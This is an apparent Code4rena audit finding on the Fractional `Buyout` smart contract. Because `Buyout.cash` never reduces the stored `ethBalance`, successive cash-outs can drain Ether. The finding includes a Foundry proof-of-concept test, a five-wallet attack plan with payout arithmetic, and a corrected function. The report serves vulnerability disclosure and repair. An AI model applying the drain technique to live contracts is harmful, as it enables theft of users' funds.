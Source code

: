 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [Cash-out from a successful buyout allows an attacker to drain Ether from the `Buyout` contract](https://github.com/code-423n4/2022-07-fractional-findings/issues/440) 

# Lines of code

https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/Buyout.sol#L268-L269


# Vulnerability details

## Impact

The function `Buyout.cash` allows a user to cash out proceeds (Ether) from a successful vault buyout.

However, due to how `buyoutShare` is calculated in `Buyout.cash`, users (fractional vault token holders) cashing out would receive more Ether than they are entitled to. The calculation is wrong as it uses the initial Ether balance stored in `buyoutInfo[_vault].ethBalance`. Each consecutive cash-out will lead to a user receiving more Ether, ultimately draining the Ether funds of the `Buyout` contract.

## Proof of Concept

Copy paste the following test case into `Buyout.t.sol` and run the test via `forge test -vvv --match-test testCashDrainEther`:

The test shows how 2 users Alice and Eve cash out Ether from a successful vault buyout (which brought in `10 ether`). Alice and Eve are both entitled to receive `5 ether` each. Alice receives the correct amount when cashing out, however, due to a miscalculation of `buyoutShare` (see [#L268-L269](https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/Buyout.sol#L268-L269)), Eve can cash-out `10 ether` from the `Buyout` contract.

```solidity
function testCashDrainEther() public {
  /// ==================
  /// ===== SETUP =====
  /// ==================

  deployBaseVault(alice, TOTAL_SUPPLY);
  (token, tokenId) = registry.vaultToToken(vault);
  alice.ferc1155 = new FERC1155BS(address(0), 111, token);
  bob.ferc1155 = new FERC1155BS(address(0), 222, token);
  eve.ferc1155 = new FERC1155BS(address(0), 333, token);

  buyout = address(buyoutModule);
  proposalPeriod = buyoutModule.PROPOSAL_PERIOD();
  rejectionPeriod = buyoutModule.REJECTION_PERIOD();

  vm.label(vault, "VaultProxy");
  vm.label(token, "Token");

  setApproval(alice, vault, true);
  setApproval(alice, buyout, true);
  setApproval(bob, vault, true);
  setApproval(bob, buyout, true);
  setApproval(eve, vault, true);
  setApproval(eve, buyout, true);

  alice.ferc1155.safeTransferFrom(
      alice.addr,
      bob.addr,
      1,
      6000,
      ""
  );

  alice.ferc1155.safeTransferFrom(
      alice.addr,
      eve.addr,
      1,
      2000,
      ""
  );
  /// ==================
  /// ===== SETUP END =====
  /// ==================

  /// Fraction balances:
  assertEq(getFractionBalance(alice.addr), 2000); // Alice: 2000
  assertEq(getFractionBalance(bob.addr), 6000); // Bob: 6000
  assertEq(getFractionBalance(eve.addr), 2000); // Eve: 2000

  bob.buyoutModule.start{value: 10 ether}(vault);

  assertEq(getETHBalance(buyout), 10 ether);

  /// Bob (proposer of buyout) transfered his fractions to buyout contract
  assertEq(getFractionBalance(buyout), 6000);

  vm.warp(rejectionPeriod + 1);

  bob.buyoutModule.end(vault, burnProof);

  /// Fraction balances after buyout ended:
  assertEq(getFractionBalance(alice.addr), 2000);  // Alice: 2000
  assertEq(getFractionBalance(bob.addr), 0); // Bob: 0
  assertEq(getFractionBalance(eve.addr), 2000); // Eve: 2000

  assertEq(getETHBalance(buyout), 10 ether);

  /// Alice cashes out 2000 fractions -> 5 ETH (correct amount)
  alice.buyoutModule.cash(vault, burnProof);

  assertEq(getFractionBalance(alice.addr), 0);
  assertEq(getETHBalance(alice.addr), 105 ether);

  /// Eve cashes out 2000 fractions -> REVERTS (internally it calculates Eve would receive 10 ETH instead of the entitled 5 ETH). If the contract holds sufficient Ether from other successful buyouts, Eve would receive the full 10 ETH
  eve.buyoutModule.cash(vault, burnProof);
}
```

**Additionally** to the demonstrated PoC in the test case, an attacker could intentionally create vaults with many wallets and exploit the vulnerability:

1. Attacker deploys a vault with `10.000` fractions minted
2. 51% of fractions (`5.100`) are kept in the main wallet, all other fractions are distributed to 5 other self-controlled wallets (Wallets 1-5, `980` fractions each)
3. With the first wallet, the attacker starts a buyout with `10 ether` - fractions are transferred into the `Buyout` contract as well as `10 ether`
4. Attacker waits for `REJECTION_PERIOD` to elapse to call `Buyout.end` (51% of fractions are already held in the contract, therefore no need for voting)
5. After the successful buyout, the attacker uses the `Buyout.cash` function to cash out each wallet. Each subsequent cash-out will lead to receiving more Ether, thus stealing Ether from the `Buyout` contract:
   1. Wallet 1 - `buyoutShare = (980 * 10 ) / (3920 + 980) = 2 ether` (`totalSupply = 3920` after burning `980` fractions from wallet 1)
   2. Wallet 2 - `buyoutShare = (980 * 10 ) / (2940 + 980) = 2.5 ether` (`totalSupply = 2940` after burning `980` fractions from wallet 2)
   3. Wallet 3 - `buyoutShare = (980 * 10 ) / (1960 + 980) = ~3.3 ether` (`totalSupply = 1960` after burning `980` fractions from wallet 3)
   4. Wallet 4 - `buyoutShare = (980 * 10 ) / (980 + 980) = 5 ether` (`totalSupply = 980` after burning `980` fractions from wallet 4)
   5. Wallet 5 - `buyoutShare = (980 * 10 ) / (0 + 980) = 10 ether` (`totalSupply = 0` after burning `980` fractions from wallet 5)

If summed up, cashing out the 5 wallets, the attacker receives `22.8 ether` in total. Making a profit of `12.8 ether`.

This can be repeated and executed with multiple buyouts and vaults at the same time as long as there is Ether left to steal in the `Buyout` contract.

## Tools Used

Manual review

## Recommended mitigation steps

Decrement `ethBalance` from buyout info `buyoutInfo[_vault].ethBalance -= buyoutShare;` in `Buyout.cash` (see `@audit-info` annotation):

```solidity
function cash(address _vault, bytes32[] calldata _burnProof) external {
    // Reverts if address is not a registered vault
    (address token, uint256 id) = IVaultRegistry(registry).vaultToToken(
        _vault
    );
    if (id == 0) revert NotVault(_vault);
    // Reverts if auction state is not successful
    (, , State current, , uint256 ethBalance, ) = this.buyoutInfo(_vault);
    State required = State.SUCCESS;
    if (current != required) revert InvalidState(required, current);
    // Reverts if caller has a balance of zero fractional tokens
    uint256 tokenBalance = IERC1155(token).balanceOf(msg.sender, id);
    if (tokenBalance == 0) revert NoFractions();

    // Initializes vault transaction
    bytes memory data = abi.encodeCall(
        ISupply.burn,
        (msg.sender, tokenBalance)
    );
    // Executes burn of fractional tokens from caller
    IVault(payable(_vault)).execute(supply, data, _burnProof);

    // Transfers buyout share amount to caller based on total supply
    uint256 totalSupply = IVaultRegistry(registry).totalSupply(_vault);
    uint256 buyoutShare = (tokenBalance * ethBalance) /
        (totalSupply + tokenBalance);
    buyoutInfo[_vault].ethBalance -= buyoutShare; // @audit-info decrement `ethBalance` by `buyoutShare`
    _sendEthOrWeth(msg.sender, buyoutShare);
    // Emits event for cashing out of buyout pool
    emit Cash(_vault, msg.sender, buyoutShare);
}
```


